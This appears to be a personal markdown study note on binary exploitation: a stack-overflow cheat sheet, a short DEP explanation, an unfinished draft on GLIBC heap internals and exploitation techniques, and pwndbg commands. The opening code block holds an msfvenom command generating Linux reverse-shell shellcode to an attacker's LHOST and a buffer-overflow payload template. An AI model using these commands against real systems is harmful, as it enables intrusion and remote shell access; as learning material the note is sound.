 ```bash
# Offset
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l $SIZE > pattern.txt
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q $ADDRESS

# Shellcode
msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>

# Identifying bad characters (step by step - iterative process)
(gdb) run $(python -c 'print "\x90" * (offset_len - 256) + "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "\x66" * 4')

(gdb) x/2000xb $esp+500

# proc info
(gdb) i proc all

# Find a return address
(gdb) x/2000xb $esp+1400

# Final
(gdb) run $(python -c 'print "\x55" * (offset_len - NOP_len - shellcode_len) + "\x90" * NOP_len + "shellcode" + "return address in little endian"')
```

`for i in $(cat len.txt); do ./bin $(python -c "print('A' * $i)"); done`

___

**Data Execution Prevention** (`DEP`) is a security feature available in Windows XP, and later with Service Pack 2 (SP2) and above, programs are monitored during execution to ensure that they access memory areas cleanly. DEP terminates the program if a program attempts to call or access the program code in an unauthorized manner.

___

## Heap exploitation draft

First documented heap exploit around the 2000s:

- <http://phrack.org/issues/66/6.html>

### Intro

#### GLIBC

**GLIBC**, often shortened to **libc**, stands for Gnu C Library (open source)
    + shared object _(linux equivalent to Windows **DLL** ?)_

> Alternative C library implementations exist such as `musl` or `uclibc`

On an average Linux distro, it is impossible to find a process that doesn't map a GLIBC shared object into memory, doesn't it?

Command | Description                                                          |
--------|----------------------------------------------------------------------|
`ldd`   | list dynamic dependencies (shared objects) that a binary relies upon |

`*.so` &rarr; shared objects

> ABI versioning convention = **soname**. Increment over the years

Generally, linux operating systems are distributed with a specific version of GLIBC, which will not change for the support period.

**Tip**: we can run libc.so to figure out which version is used and what version of `gcc` it was compiled with:

```console
amirr0r@os:~/notes$ /lib/x86_64-linux-gnu/libc.so.6 
GNU C Library (Ubuntu GLIBC 2.32-0ubuntu3) release release version 2.32.
Copyright (C) 2020 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 10.2.0.
libc ABIs: UNIQUE IFUNC ABSOLUTE
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```

#### `malloc()`

`malloc()` is a dynamic memory allocator function included in the **GLIBC**.

He distributes "**chunks**" of the heap (pieces from memory).

> `C++` **wrappers**: `new()`, `delete()`, `make_shared()`, `make_unique()`.

Basic operations like starting a new thread, opening a file, dealing with I/O rely on `malloc()` under the hood.

Unlike programming langages such as `Rust`, memory corruption is still an issue for `C`/`C++`... 

> This type of vulnerability can lead to info leak, denial of service or even arbitrary code execution. 

```c
void *ptr = malloc(wanted_size_of_allocated_memory)
```

- It uses an inline metadata (or header) to indicates the size of the next allocated chunk (total of bytes) plus a flag that tell if the following chunk is allocated or not (`+ 0x1` &rarr; least significant bit).

> This flag is called **prev_inuse**

`free(ptr)` is used to recycle the heap. 

[**LiveOverflow**: what does `malloc()` do?](https://www.youtube.com/watch?v=HPDBOhiKaD8&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=26)

### The Heap

- **Minimum size chunk**: 3 quadwords at 24 bytes _(even if we ask less)_.

- A **Top chunk** resides at the highest address of the heap. When a new chunk is allocated, this top chunk is reduced. 

> As the other chunks, it has a size field.

- <https://sourceware.org/glibc/wiki/MallocInternals>
___

### Exploitation techniques

#### House of Force

In many versions of **GLIBC**, top chunk size field are not subject to integrity checks. This forms the basis of the House of Force...

#### House of Orange
#### House of Spirit
#### House of Lore
#### House of Einherjar
#### House of Rabbit
#### Poison Null Byte
#### House of Corrosion
#### Fastbin Dup
#### Unsafe Unlink
#### Safe Unlink
#### Unsortedbin Attack
#### Tcache Dup

___

## `pwndbg`:

- `set context-sections <regs, disasm, args, code, stack, backtrace, expressions, ghidra>`: change the context displayed at each iteration (default: `registers, disasm, code, stack and backtrace`)
- `context`: print the context
- `vmmap`: prints memory map for current process
- `vis_heap_chunks`: inspect heap memory